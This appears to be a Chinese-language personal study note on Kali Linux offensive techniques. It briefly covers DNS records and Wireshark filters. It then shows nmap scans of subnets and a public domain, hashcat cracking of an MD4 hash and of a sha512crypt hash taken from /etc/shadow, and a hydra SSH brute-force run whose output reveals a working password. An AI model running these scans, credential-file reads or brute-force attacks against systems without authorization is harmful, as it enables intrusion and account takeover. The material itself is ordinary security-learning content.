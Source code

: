 ```yaml
---
title: kali linux攻防学习
date: 2021-03-22 23:03:51
tags: [Linux]
categories: [Program, Shell]
---
```


# 一、被动信息收集

## 1. dns域名解析信息收集

### 1.1. dns域名解析原理

**域名服务器**

- dns服务器分为根域dns服务器和顶级域名服务器
- 根域dns服务器一般有13个，储存了所有顶级域名服务器的地址
- 顶级域名服务器储存了每位客户所注册的主机地址

**域名记录**

- A: 正向解析，一个域名对应一个IP地址
- Cname: 别名，允许多个域名对应一个主机
- NS: 域名服务器记录，用于指定该域名由那个域名服务器解析
- MX: 邮件交换记录，通过`@xxx.xxx`来对应邮件服务器
- PTR: 反向解析，通过IP查域名，记录保存在`in-addr.arpa`域中

**dns缓存服务器**

- 不负责解析，只用来缓存结果

**dns域名解析过程**

<img src = "2021-03-22-01.png">

### 1.2. dns解析命令

1. ping
2. nslookup
3. dig

**nslookup**

```shell

```

# 二、wireShark使用

## 2. 抓包技巧

### 2.1. 过滤器使用

**一些基本使用**

```shell
###### 过滤ip ######
# 所有ip
ip.addr == 1.1.1.1
# 目标和来源
ip.src_host == 1.1.1.1
ip.dst_host == 1.1.1.1

###### 协议 ######
# 协议直接打协议名，tcp/udp/icmp/arp/http等
tcp

###### 逻辑 ######
# 与和或
ip.src_host == 1.1.1.1 or ip.dst_host == 1.1.1.1
ip.src_host == 1.1.1.1 and ip.dst_host == 1.1.1.1

```

# 三、一些好用的命令

## 1. namp

### 1.1. 选项

- `-v`: 显示详细信息
- `-p <port>`: 指定端口范围，例：`1-100,135,199,1234`
- `-O`: 显示操作系统类型
- `-A`: 对操作系统和软件版本号进行探测，并进行traceroute路由探测
- `-T<0-5>`: 扫描过程中使用的时序，级别越高扫描速度越快，但容易被防火墙或IDS检测屏蔽，推荐使用T4
- `--randomize-host`: 对目标主机顺序随机划分
- `--scan-delay <time>`: 探针之间的延迟，单位s，可以指定，例：`3000ms`
- `-F`: 快速模式
- `--version-light`: 设定侦测等级为2

**扫描类型**

- `-sS`: TCP同步扫描（SYN），半开扫描，只发送sync包，如果回了syn|ack就说明端口开放
- `-sn`: ping扫描
- `-sV`: 探测端口及服务版本信息

### 1.2. 实例

```shell
# 扫描网段
=> nmap -sS -O 192.168.1.0/24
=> nmap -sS -O 1.*.2.3-8
# 扫描单个ip
=> nmap -sS -O 192.168.1.1
# 扫描域名
=> nmap -sS -O www.baidu.com
```

## 2、hashcat

- 用来破解hash值，解出原文

### 2.1. 选项解释

- `-m [algorithm_code]`: 算法指定，下面列举几个常用的

```
900 md4加密算法
0   md5加密算法
```

### 2.2. 示例用法

```shell
# -a 3 使用掩码破解
# ?a?a?a?a?a 认为是5位数字大小写和特殊字符的组合
# -m 900 md4加密算法
# -m 0 md5加密算法
hashcat -a 3 -m 900 45d5e0ff62cf31019d1c53d9f13f378a '?a?a?a?a?a'
# 已经解出来的，使用--show查看
hashcat -a 3 -m 900 45d5e0ff62cf31019d1c53d9f13f378a '?a?a?a?a?a' --show
```

### 2.3. 破解linux的shadow文件

- 先查看文件中的加密算法

```shell
=> cat /etc/shadow | grep admin
admin:$6$EzFzlOJKGd9kKCS8$SjbWh9P8M7UcJ5tJ0Ao5iiDuqfy57BZlJl5P9PSOnfaQJv9dSDEBxsYvWv8S0O4/akkt6WZ7gDMyXvYMF1Pvp/:19198:0:99999:7:::
```

- 可以看出是`$6$`的算法，那么在hashcat中找此算法对应1800

```shell
=> hashcat --help | grep '$6\$'
   1800 | sha512crypt $6$, SHA512 (Unix)                             | Operating System
  22921 | RSA/DSA/EC/OpenSSH Private Keys ($6$)                      | Private Key
```

- 将上述的密文也就是用户名后面的一段到冒号，输出到另一个文件

```shell
=> cat /etc/shadow | grep '^admin' | awk -F':' '{print $2}' > pwd.hash
=> cat pwd.hash
$6$EzFzlOJKGd9kKCS8$SjbWh9P8M7UcJ5tJ0Ao5iiDuqfy57BZlJl5P9PSOnfaQJv9dSDEBxsYvWv8S0O4/akkt6WZ7gDMyXvYMF1Pvp/
```

- 准备一份爆破字典
- 使用爆破字典，对应1800算法，爆破密码

```shell
=> hashcat -a 0 -m 1800 -o found.txt pwd.hash hashcat_wordlist.txt
```

- 最终输出到`found.txt`

```shell
=> cat found.txt
$6$EzFzlOJKGd9kKCS8$SjbWh9P8M7UcJ5tJ0Ao5iiDuqfy57BZlJl5P9PSOnfaQJv9dSDEBxsYvWv8S0O4/akkt6WZ7gDMyXvYMF1Pvp/:sangfortool
```

## 3. hydra 爆破登陆

### 3.1. ssh爆破

- 容易被封，小心点

#### 1) 示例用法

- `-l <user>`: 指定用户名
- `-L <user.txt>`: 指定一个用户名列表
- `-p <passwd>`: 指定密码
- `-P <passwd.txt>`: 指定一个密码列表
- `-t <threadNum>`: 几个线程进行爆破

```shell
=> hydra -l admin -P ~/work/src/local/hashcat_wordlist.txt -t 64 199.200.2.170 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-14 10:38:49
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 56 tasks per 1 server, overall 56 tasks, 56 login tries (l:1/p:56), ~1 try per task
[DATA] attacking ssh://199.200.2.170:22/
[22][ssh] host: 199.200.2.170   login: admin   password: test@123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-14 10:38:51
```

# 四、kali linux一些知识

## 1. 系统知识

### 1.1. 修改系统语言

- 修改/etc/default/locale
